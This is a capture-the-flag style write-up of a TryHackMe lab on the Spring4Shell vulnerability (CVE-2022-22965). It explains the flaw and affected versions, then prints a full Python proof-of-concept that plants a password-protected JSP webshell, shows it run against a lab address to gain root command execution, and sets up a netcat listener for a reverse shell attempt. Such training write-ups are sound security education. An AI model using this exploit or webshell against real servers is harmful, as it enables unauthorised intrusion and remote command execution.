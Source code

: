 ```yaml
---
description: Exploiting the Java Spring Framework - https://tryhackme.com/room/spring4shell
---
```


# Spring4Shell: CVE-2022-22965

![](<../../../.gitbook/assets/image (26) (1) (1).png>)

## Background

In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io/) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.\


## How does it work?

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.\


Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.\


## Limitations

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

* JDK 9+
* A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)\

* Apache Tomcat as a server for the Spring application, packaged as a WAR
* A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework\


It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

## Exploitation

{% hint style="danger" %}
You should _always_ review unknown exploits before running them.
{% endhint %}

Using this Proof of Concept Python Script:

{% code title="exploit.py" %}
```python
import requests
import argparse
from urllib.parse import urljoin

def exploit(url, filename, password, directory):
    headers = {"suffix":"%><!--//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"
    }

    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{password}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/{directory}&class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="


    try:
        requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, f"{filename}.jsp")
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"Shell Uploaded Successfully!\nYour shell can be found at: {shellurl}?pwd={password}&cmd=whoami")
        else:
            print("Exploit failed to upload")
    except Exception as e:
        print(e)
        pass




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Spring4Shell RCE Proof of Concept')
    parser.add_argument('url', help='Target URL')
    parser.add_argument("-f","--filename", help="Name of the file to upload (Default tomcatwar.jsp)", default="tomcatwar.jsp")
    parser.add_argument("-p","--password", help="Password to protect the shell with (Default: thm)", default="thm")
    parser.add_argument("-d","--directory", help="The upload path for the file (Default: ROOT)", default="ROOT")
    args = parser.parse_args()
    exploit(args.url, args.filename.split(".")[0], args.password, args.directory)
```
{% endcode %}

We can attack a vulnerable web server

![](<../../../.gitbook/assets/image (12) (1).png>)

Lets look at the source code `ctrl + u`

```html
<!DOCTYPE HTML>
<html>
    <head> 
        <title>Vulnerable</title>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <script src="/assets/js/font-awesome.js"></script>
        <link rel="icon" type="image/png" href="/assets/favicon.png" />
        <link href="/assets/css/styles.css" rel="stylesheet" />
    </head>
    <body>
        <!-- Masthead-->
        <div class="masthead">
            <div class="masthead-content text-white">
                <div class="container-fluid px-4 px-lg-0">
                    <h1 class="fst-italic lh-1 mb-4">Our Website is Coming Soon</h1>
                    <p class="mb-5">We're working hard to finish the development of this site. Sign up below to receive updates and to be notified when we launch!</p>
                    <form id="contactForm" action="/" method="post">
                        <!-- Email address input-->
                        <div class="row input-group-newsletter">
                            <div class="col"><input class="form-control" required type="email" placeholder="Enter email address..." aria-label="Enter email address..." id="email" name="email" value="" /></div>
                            <div class="col-auto"><button class="btn btn-primary" id="submitButton" type="submit">Notify Me!</button></div>
                        </div>
                    </form>
                </div>
            </div>
        </div>
        <div class="social-icons">
            <div class="d-flex flex-row flex-lg-column justify-content-center align-items-center h-100 mt-3 mt-lg-0">
                <a class="btn btn-dark m-3" target="_blank" href="https://twitter.com/MuirlandOracle"><i class="fab fa-twitter"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://github.com/MuirlandOracle"><i class="fab fa-github"></i></a>
                <a class="btn btn-dark m-3" target="_blank" href="https://www.linkedin.com/in/agcyber/"><i class="fab fa-linkedin"></i></a>
            </div>
        </div>
        <!-- Bootstrap core JS-->
        <script src="/assets/js/bootstrap.bundle.min.js"></script>
    </body>
</html>
```

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 18:

`<form id="contactForm" action="/" method="post">`

The action is "`/`", meaning that our target URL will simply be: `http://10.10.151.162/`.

{% hint style="info" %}
_**Note:** the trailing slash is very important here!_
{% endhint %}

## Attack

Lets check the script inputs real quick

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

Looks like running `./exploit.py` [`http://10.10.151.162/`](http://10.10.151.162/) should just work

![](<../../../.gitbook/assets/image (6) (1).png>)

And it looks like we have command execution!

![](<../../../.gitbook/assets/image (25) (1) (1).png>)

We are definately root!

![](<../../../.gitbook/assets/image (7) (1).png>)

Lets get a real shell now so we want to get burpsuite open and prepare our shell on our attackbox

On our attack box I am running `nc -lvnp 9001`

![](<../../../.gitbook/assets/image (9) (1).png>)

Time to capture the id request in burp

First enable burp in foxy proxy

![](<../../../.gitbook/assets/image (2) (1).png>)

Then we want to send the request we captured in burp to repeater

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

After a few tries I found the box has python3

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

On our web shell we are going to run a python reverse shell from Pentestmonkey

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

At this point I was having issues with bad characters and getting a reverse/bind shell working. I am not sure if it was a limitation of the environment but I plan on revisiting this.
